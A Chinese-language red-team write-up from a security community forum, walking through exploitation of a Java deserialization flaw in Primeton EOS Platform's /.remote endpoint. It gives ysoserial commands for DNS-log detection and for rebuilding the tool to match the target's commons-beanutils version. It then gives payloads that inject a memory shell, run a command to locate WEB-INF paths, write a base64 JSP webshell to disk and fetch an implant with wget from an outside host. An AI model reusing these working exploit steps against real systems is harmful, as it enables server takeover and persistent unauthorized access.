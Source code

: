 

# 奇安信攻防社区-记一次普元Primeton EOS Platform反序列化漏洞的利用链报错问题调整

### 记一次普元Primeton EOS Platform反序列化漏洞的利用链报错问题调整

在某演练中，普元Primeton EOS Platform反序列化漏洞反序列化返回serialVersionUID对应不上的问题的一次调整，详细操作如下，为师傅们避坑

# 普元Primeton EOS Platform反序列化漏洞

## 一、漏洞复现探测

漏洞路由/.remote

```php
10.95.209.59:8080/default/.remote
```

![](assets/1706770101-6039a029f4f310a686e46102e1a6adbd.png)

1su18-探测反序列化利用链--选择使用全部类探测

[https://github.com/su18/ysoserial/](https://github.com/su18/ysoserial/)

![](assets/1706770101-91f624dc7b0c3b1d82c0c958dc0d3684.png)

坑点注意--单引号生成的大小再windows里会小了3kb导致失败

```php
正确的双引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p "all:gbs.dnslog.pw" >dnslog2223.ser
失败的单引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p 'all:gbs.dnslog.pw' >dnslog2223.ser
```

![](assets/1706770101-47cb4c9bfa3cce1c3453104c45d8f03f.png)

```php
POST /default/.remote HTTP/1.1
Host: 10.95.209.59:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![](assets/1706770101-11e69223e786e9c26b3cd42b7ece04fb.png)

成功dnslog

![](assets/1706770101-a6d856b7418897c762001cb55573b747.png)

## 二、遇到的问题--serialVersionUID对应不上的问题

没有延时并返回serialVersionUID对应不上的问题

serialVersionUID = 2573799559215537819

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```

![](assets/1706770101-9b979558c1fb04fda8d33ebe3bd19db4.png)

使用延时探测是否存在--可以看到报错

![](assets/1706770101-1a6c2616252094a54cf43975725add54.png)

## 三、解决问题--魔改yso

gv7探测利用链--类的列表的两篇文章

[https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils)

[https://github.com/su18/ysoserial/](https://github.com/su18/ysoserial/)

![](assets/1706770101-74ca629fad037135dc078b7755677c96.png)

原来的`ysoserial-for-woodpecker-0.5.2-all.jar`是cb1.9.2的

![](assets/1706770101-e79b9e8f1a2118c849b65f9518dcfd09.png)

查阅网上资料

[https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils)

发现当CommonsBeanutils版本1.7.0 <= <= 1.8.3的时候suid为2573799559215537819正好与目标环境对得上

![](assets/1706770101-5b1d115f22d46a067022213dc85f3411.png)

并通过延时探测org.apache.commons.beanutils.ConstructorUtils类是否存在

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g FindClassByBomb -a "org.apache.commons.beanutils.ConstructorUtils|28" >suid.ser
```

成功延时

![](assets/1706770101-db014d722570a1ede77292671dc5b7a0.png)

![](assets/1706770101-86335d10ae89f5976008b7d996efc4ef.png)

打包时报错

[https://class.imooc.com/course/qadetail/264587](https://class.imooc.com/course/qadetail/264587)

于是重新打包 ysoserial ，把依赖包 commons-beanutils修改为1.6版本对应到目标环境

![](assets/1706770101-1875c9fec9b832623ac4f6ec76188ff8.png)

[https://www.runoob.com/maven/maven-setup.html](https://www.runoob.com/maven/maven-setup.html)

随便下个zip去解压填进path就可以了

**配好maven环境**就去根目录重新执行下面命令

```php
MAVEN_HOME  
D:\apache-maven-3.6.1

path
%MAVEN_HOME%\bin
```

```php
mvn clean package -DskipTests
```

![](assets/1706770101-87b9712515fcea87865d5e55cab5697d.png)

重新使用cb1.6打包的yso延时探测

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```

![](assets/1706770101-69cb6b83c40b1ff72006ac747bb0778d.png)

## 四、漏洞利用-注入内存马和命令执行无回显写shell

注入内存马

成功

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "class_file:gslFilterMemshellLoader.class" >gsl.ser
```

![](assets/1706770101-a2dd7c77f1b0a9f240a17b6267411c7e.png)

![](assets/1706770101-15ccb7208acc7568c61b81f3f8b0688c.png)

命令执行不出网写shell-如果不会打内存马或者打不成功，那最淳朴的方法就是命令执行--linux找web路径-命令执行echo写入webshell

```php
1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done
```

`linux_cmd`

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done" >cmd.ser
```

[http://10.95.209.59:8080/examples/WEB-INF.txt](http://10.95.209.59:8080/examples/WEB-INF.txt)

/usr/local/apache-tomcat-8.5.83/webapps/examples/WEB-INF.txt

![](assets/1706770101-7b55f793059fbfb012dac99830e5e811.png)

写shell

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:echo base64马子 | base64 -d >/usr/local/apache-tomcat-8.5.83/webapps/examples/gsl33.jsp" >cmd.ser
```

![](assets/1706770101-c8d1f70e4f1e06f0fc4116f73e79a3be.png)

以上都是不出网的打法，当然也可以写cron计划任务不过执行两次命令就没必要了，出网的当然可以下马子直接上线就好--这里就不写了和以上的linux\_cmd方法一样

```php
wget http://ip/马子 -O /tmp/马子
```
